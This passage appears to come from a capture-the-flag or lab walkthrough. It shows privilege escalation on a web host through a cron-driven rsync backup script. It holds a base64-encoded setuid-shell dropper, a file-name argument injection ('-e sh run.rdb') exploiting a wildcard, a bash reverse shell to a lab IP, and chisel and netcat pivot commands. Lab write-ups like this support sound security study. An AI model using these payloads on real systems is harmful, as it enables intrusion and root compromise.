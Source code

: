 Now transfer it to the www host; easiest way is base64

```bash
base64 run.rdb -w 0

IyEvYmluL3NoCmNwIC9iaW4vZGFzaCAvdG1wL3ByaXZfZXNjCmNobW9kIDQ3NTUgL3RtcC9wcml2X2VzYwo=

on www host:
echo IyEvYmluL3NoCmNwIC9iaW4vZGFzaCAvdG1wL3ByaXZfZXNjCmNobW9kIDQ3NTUgL3RtcC9wcml2X2VzYwo= | base64 -d > /tmp/run.rdb

#Now cat it to see if it matches the original content.
```

Now we can utilise the [backup.sh](http://backup.sh) by naming another file the command to execute our exploit

```bash
cd /var/www/html
touch -- 'f187a0ec71ce99642e4f0afbd441a68b/-e sh run.rdb'
cp /tmp/run.rdb f18*/

#A reminder of backup.sh
rsync -a *.rdb rsync://backup:873/src/rdb/

#Therefore the command that will be ran based on our file name:
rsync -a '-e "sh run.rdb"' rsync://backup:873/src/rdb/

#to check on the time
date
```

Another way is to let is execute a reverse shell

```bash
#!/bin/sh

bash -c "bash -i >& /dev/tcp/172.19.0.4/1234 0>&1"

#save it to a file then base64 encode it
base64 reverse.rdb -w 0

result:

IyEvYmluL3NoCmJhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE5LjAuNC8xMjM0IDA+JjEiCg==

on www:
echo IyEvYmluL3NoCmJhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE5LjAuNC8xMjM0IDA+JjEiCg== | base64 -d > reverse.rdb
```

We need to set up the listening port on pivot host before hand

```bash
pivot:
chisel client 10.10.14.132:8110 1234:127.0.0.1:7003

attack:
nc -lnvp 7003
```
